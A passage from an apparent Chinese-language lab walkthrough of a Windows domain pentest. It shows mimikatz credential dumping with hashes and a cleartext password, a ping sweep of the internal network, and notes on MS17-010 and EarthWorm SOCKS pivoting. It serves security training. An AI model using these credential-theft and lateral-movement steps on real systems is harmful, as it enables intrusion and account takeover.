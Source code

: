 ```
```

开始抓密码，得到明文密码

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
SID               : S-1-5-21-2952760202-1353902439-2381784089-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : GOD
         * LM       : edea194d76c77d87840ac10a764c7362
         * NTLM     : 8a963371a63944419ec1adf687bb1be5
         * SHA1     : 343f44056ed02360aead5618dd42e4614b5f70cf
        tspkg :
         * Username : Administrator
         * Domain   : GOD
         * Password : hongrisec@2019
        wdigest :
         * Username : Administrator
         * Domain   : GOD
         * Password : hongrisec@2019
        kerberos :
         * Username : Administrator
         * Domain   : GOD.ORG
         * Password : hongrisec@2019

```

# 横向移动

我们用以下方法探测内网存活的主机

```
 for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.117.%I | findstr "TTL="
```

以下是结果(当然我们上面用msf也能探测，多一种方法多一种思路)

```
C:\Windows\system32> for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.117.%I | findstr "TTL="
 for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.117.%I | findstr "TTL="
Reply from 192.168.117.1: bytes=32 time<1ms TTL=128
Reply from 192.168.117.128: bytes=32 time<1ms TTL=128
Reply from 192.168.117.129: bytes=32 time<1ms TTL=128
Reply from 192.168.117.130: bytes=32 time<1ms TTL=128
```

之前我们使用ms17-010失败了，网上师傅说

```
打2003有时候多次执行后msf就接收不到session，而且ms17-010利用时，server 2003很容易就蓝屏了。可以尝试了一下github上的windows 2003 – windows 10全版本的msf 17-010脚本（ms17_010_eternalblue_doublepulsar）。我们可以尝试直接打开该主机的远程桌面，由于该主机处于内网，我们的攻击机相对之处于外网，无法直接与内网中的主机通信，所以我们需要用Earthworm做Socks5代理作为跳板进入内网获取更多主机。
```

